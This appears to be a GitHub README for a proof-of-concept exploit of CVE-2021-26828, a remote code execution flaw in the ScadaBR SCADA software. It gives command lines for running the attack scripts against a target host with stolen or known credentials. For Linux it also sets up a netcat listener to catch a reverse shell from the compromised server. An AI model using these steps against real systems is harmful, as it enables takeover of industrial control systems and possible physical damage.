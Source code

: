# POC CVE-2021-26828_ScadaBR_RemoteCodeExecution

- ScadaBR 0.9.1 on Linux and through 1.0 and 1.12.4CE on Windows allows remote authenticated users to upload and execute arbitrary JSP files via 'view_edit.shtm' and Remote Code Execution.

### Exploit Usage

#### Commands:
- Windows:
`$ sudo python WinScada_RCE.py <Remote_Host> <Remote_Port> <User> <Pass>`

![](https://github.com/hevox/CVE-2021-26828_ScadaBR_RCE/blob/main/PocScadaBRWin.png)

- Linux:
First in your local machine open any port before exploit execution:

`$ sudo nc -vnlp 4444`

`$ sudo python LinScada_RCE.py <Remote_Host> <Remote_Port> <User> <Pass> <Reverse_IP> <Reverse_Port>`

![](https://github.com/hevox/CVE-2021-26828_ScadaBR_RCE/blob/main/PocScadaBRLin.png)

- References:

  https://www.exploit-db.com/exploits/49734

  https://www.exploit-db.com/exploits/49735

  https://www.youtube.com/watch?v=k1teIStQr1A
